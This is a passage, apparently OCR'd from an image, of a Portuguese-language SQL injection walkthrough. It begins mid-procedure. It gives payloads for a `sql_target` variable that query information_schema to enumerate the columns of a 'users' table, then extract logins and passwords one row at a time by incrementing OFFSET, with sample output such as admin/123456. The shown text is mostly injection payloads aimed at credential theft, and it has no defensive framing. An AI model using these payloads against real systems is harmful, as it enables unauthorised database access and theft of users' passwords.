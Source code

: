 ✅ Continue testando `OFFSET` até que o script não retorne mais nada (ou só espaço vazio).  
Isso significa que **não há mais tabelas para esse banco**.

---

## ✅ 3. Descobrir colunas da tabela `users`

Se uma das tabelas encontradas se chama `users`, então o próximo passo é extrair suas colunas:

### Use:

```python
sql_target = "(SELECT column_name FROM information_schema.columns WHERE table_name='users' AND table_schema='cc' LIMIT 1 OFFSET 0)"
```

🌀 Vá aumentando o `OFFSET` para pegar todas as colunas da tabela `users`:

|OFFSET|Coluna extraída|
|---|---|
|0|login|
|1|password|
|2|...|

📌 Você deve **continuar incrementando** até que o script **não retorne mais nenhuma coluna**.

---

## ✅ 4. Extrair o conteúdo (usuários e senhas)

Depois de descobrir as colunas da tabela, extraímos os dados com:

### Login:

```python
sql_target = "(SELECT login FROM users LIMIT 1 OFFSET 0)"
```

### Senha:

```python
sql_target = "(SELECT password FROM users LIMIT 1 OFFSET 0)"
```

🌀 Novamente, use `OFFSET` para iterar os usuários:

|OFFSET|login|password|
|---|---|---|
|0|admin|123456|
|1|user|qwerty|
|2|...|...|

---